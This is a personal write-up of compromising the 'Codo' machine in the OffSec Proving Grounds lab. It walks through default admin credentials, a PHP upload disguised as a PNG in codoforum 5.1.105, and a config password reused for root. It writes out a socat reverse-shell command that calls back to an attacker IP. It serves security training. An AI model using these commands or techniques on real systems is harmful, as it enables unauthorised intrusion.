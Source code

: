 # PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 | ![ImgPlaceholder](img/codo-image-1.png) |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 | ![ImgPlaceholder](img/codo-image-1.png) | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 | ![ImgPlaceholder](img/codo-image-3.png) |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target:```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444```` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 | ![ImgPlaceholder](img/codo-image-4.png) |

| Lessons Learnt: | |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files |
| 3. | Patch applications regularly. |
